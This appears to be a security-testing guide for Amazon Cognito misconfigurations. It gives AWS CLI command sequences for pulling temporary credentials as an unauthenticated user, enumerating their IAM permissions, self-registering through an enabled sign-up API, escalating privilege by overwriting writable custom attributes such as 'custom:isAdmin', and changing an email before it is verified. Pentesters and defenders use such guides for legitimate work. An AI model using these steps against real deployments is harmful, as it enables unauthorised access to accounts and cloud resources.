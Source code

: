 Credit: Yassine Aboukir @yassineboukir

AWS Cognito Documentation [https://docs.aws.amazon.com/cli/latest/reference/cognito-idp/index.html#cli-aws-cognito-idp](https://docs.aws.amazon.com/cli/latest/reference/cognito-idp/index.html#cli-aws-cognito-idp)

# Amazon Cognito Security Misconfiguration

## Introduction
Amazon Cognito, you can add user sign-up and sign-in features and control access to your web and mobile application. Amazon Cognito provides an identity store that scales to millions of users, supports social and enterprise identity federation and offers advanced security features to protect your consumers and  business.
Amazon Cognito makes it easier for you to manage user identities, authentication, and permission.
It consists of two main components:
* User Pools: allow sign-in and sign-up functionality
* Identity Pools: allow authenticated and unauthenticated users to access AWS resources using temporary AWS credentials.


#### API calls to User pool
```
https://cognito-idp.us-west-2.amazonaws.com
```

#### API calls to Identity pool
```
https://cognito-identity.us-west-2.amazonaws.com
```


# Security Misconfiguration
## 1 Unauthorized access to AWS services due to Liberal AWS Credentails.
* Try to fetch temporary AWS credentails using unauthenticated user 
To generate the AWS credentaisls, we need to find ` Identity Pool ID ` which is usually hardcoded in the source code, in a bundled JS file or in HTTP response. Other useful information that you can find:
	* Client ID
	* User Pool ID
	* Region

![image](https://user-images.githubusercontent.com/88592872/211176003-f3a443e0-b3ba-445c-a729-7a3dc64278a4.png)


Next step is to use the Pool Identity ID to generate an Identity ID. User AWS-Cli tool [https://aws.amazon.com/cli/](https://aws.amazon.com/cli/)


#### Command
```
aws cognito-identity get-id --identity-pool-id <identity-pool-id> --region <region>
```

#### Example Command
```
aws cognito-identity get-id --identity-pool-id "us-east-1:b37a7b57-6412-467f-8854-2be137e33871" --region us-east-1

```


Copy the identity-id from the response and use it in the next command.

#### Command
```
aws cognito-identity get-credentials-for-identity --identity-id <identity-id> --region <region>
```

Now we can enumerate permissions associated with these credentials using a tools such as:
* Enumreate-iam: [https://github.com/andresriancho/enumerate-iam](https://github.com/andresriancho/enumerate-iam)
* Scout Suite: [https://github.com/nccgroup/ScoutSuite](https://github.com/nccgroup/ScoutSuite)


#### Command
```
./enumerate-iam.py --access-key <AccessKeyID> --secret-key <SecreetKey> --session-token <SessionToken>
```

## 2. Authentication bypass due to enabled SignUp API action

Self-registration enabled by default when creating a new user pool.
We only need the client ID and region to test against the self-registration

#### Command
```
aws cognito-idp sign-up --client-id <client-id> --username <email-address> --password <password> --region <region>
```

In case of a successful self-registration, a 6 digits confirmation code will be delivered to the attacker's email address 
You'll need to confirm the account next

#### Command
```
aws cognito-idp confirm-sign-up --client-id <client-id> --username <email-address> --confirmation-code <confirmation-code> --region <region>
```

Sometimes you might successfully be able to sign up and register an account but it doesn't have any user group assigned. However, you will be able to obtain temporary AWS credentials which you can test against liberal permissions as we explained earlier.

## 3: Privilege escalation through writable user attributes
 
Attributes are pieces of information that help you identify individual users, such as name, email address and phone number. A new user pool has a set of default standard attributes.
You can also add custom attributes to your user pool definition in the AWS management console.
 
Unless set as readable only, the new custom attribute permission is writable by default which allows the user to update its value.
 
 * Fetching user attributes
In order to test against this misconfiguration, you need to be authenticated then we'll fetch the available user attributes using the generated access token.
 
#### Command
```
aws cognito-idp get-user --region <region> --access-token <access-token>
```


Look out for custom attributes such as:
```
custom:isAdmin
custom:userRole
custom:isActive
custom:isApproved
custom:access
```

* Updating user attributes

#### Command
```
aws cognito-idp update-user-attributes --access-token <access-token> --region <region> --user-attributes Name="<attribute-name>",Value="<new-value>"
```

## 4 Updating email attribute before verification
 
There are scenarios where the user isn't allowed to update their email address due to both client and server-side security controls. However, by leveraging Cognito API, it might also be possible to bypass this restriction.
 
 
#### Command
```
aws cognito-idp update-user-attributes --access-token <access-token> --region <region> --user-attributes Name="<email>",Value="<new-email-address>"
```
